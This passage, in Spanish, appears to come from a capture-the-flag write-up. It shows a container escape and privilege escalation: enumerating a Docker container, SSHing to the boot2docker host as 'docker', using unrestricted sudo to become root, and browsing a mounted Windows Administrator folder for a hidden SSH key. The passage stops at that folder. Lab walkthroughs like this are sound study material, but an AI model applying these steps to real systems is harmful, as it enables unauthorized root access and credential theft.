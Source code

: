 ## Privilege Escalation

Nos encontramos en el `contenedor`

```
postgres@bc56e3cc55e9:/var/lib/postgresql/11/main$ hostname -I
hostname -I
172.17.0.2 
```

`Enumeramos` el `contenedor` y vemos que el sistema es `boot2docker`

```
postgres@bc56e3cc55e9:/boot$ uname -a
uname -a
Linux bc56e3cc55e9 4.14.154-boot2docker #1 SMP Thu Nov 14 19:19:08 UTC 2019 x86_64 GNU/Linux
postgres@bc56e3cc55e9:/boot$ lsb_release -a
lsb_release -a
No LSB modules are available.
Distributor ID:	Debian
Description:	Debian GNU/Linux 10 (buster)
Release:	10
Codename:	buster
```

`Escapamos` del `contenedor` siguiendo estos pasos [https://rioasmara.com/2021/08/08/privilege-escalation-boot2docker/](https://rioasmara.com/2021/08/08/privilege-escalation-boot2docker/)

```
postgres@bc56e3cc55e9:/var/lib/postgresql/11/main$ ssh -t docker@172.17.0.1
docker@172.17.0.1's password: 
   ( '>')
  /) TC (\   Core is distributed with ABSOLUTELY NO WARRANTY.
 (/-_--_-\)           www.tinycorelinux.net

docker@box:~$ whoami
docker
docker@box:~$ hostname -i                                                      
127.0.0.1
```

Nos convertimos en usuario `root`

```
-bash-4.4$ sudo -l
User docker may run the following commands on this host:
    (root) NOPASSWD: ALL
-bash-4.4$ sudo su
bash-4.4# whoami
root
```

He logrado encontrar una clave `id_rsa` que estaba oculta en el directorio `Administrator`

```
bash-4.4# ls -a
.             etc           linuxrc       run           usr
..            home          mnt           sbin          var
bin           init          opt           squashfs.tgz
c             lib           proc          sys
dev           lib64         root          tmp
bash-4.4# cd c
bash-4.4# ls -a
.      ..     Users
bash-4.4# cd Users
bash-4.4# ls -a
.              Administrator  Default        Public         desktop.ini
..             All Users      Default User   Tony
bash-4.4# cd Administrator
```